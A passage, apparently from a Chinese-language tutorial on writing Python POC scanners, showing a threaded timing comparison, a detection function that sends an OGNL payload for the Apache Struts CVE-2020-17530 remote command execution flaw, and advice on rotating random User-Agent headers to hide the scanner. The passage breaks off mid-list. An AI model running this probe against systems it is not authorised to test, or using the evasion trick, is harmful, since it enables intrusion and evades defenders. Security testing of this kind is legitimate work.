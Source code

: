 ```python
```

看下图，第一行我测试的是只用两个线程来执行，一共是4个`url`，基本上是花费了4秒左右，第二行是我没用线程，4个`url`花费了9秒，还是能够看出来区别效果的。

![image-20240429102848169](assets/image-20240429102848169.png)

# 3. UA头设置

在下面中我们可以看到`headers`中的`User-agent`是从我们之前的`burp`软件中导出来的，这里可以隐藏自己，将所有的`UA`头，让每次运行的时候随机选择一个。

```python
def poc(url, port):
    payload = "/?id=%25%7b+%27test%27+%2b+(2021+%2b+20).toString()%7d"
    url1 = f"{url}:{port}{payload}"
    headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0",
               "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
               "Accept-Language": "zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3",
               "Accept-Encoding": "gzip, deflate, br",
               "DNT": "1",
               "Connection": "close"}
    try:
        r = requests.get(url1, headers=headers, verify=False, timeout=5, allow_redirects=False)
        if "test2041" in r.text:
            print(f"[+]{url}存在CVE-2020-17530远程命令执行漏洞")
        else:
            print(f"[-]{url}不存在CVE-2020-17530远程命令执行漏洞")
    except Exception as e:
        print(f"[-]{url}存在异常，请检查！")
        sys.exit(1)
```

## 3.1. 随机UA头

`User-Agent`代表用的哪个请求的浏览器

### 3.1.1. 案例

这里我们可以列举一个UA头列表，然后随机取其中一个UA头替换请求头中的ua头内容。

```python
import random  # 确保已经导入了random模块  
  
headers = {  
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0",  
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",  
    "Accept-Language": "zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3",  
    "Accept-Encoding": "gzip, deflate, br",  
    "DNT": "1",  
    "Connection": "close"  
}  
  
ua_list = [  
    "Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.0)",  
```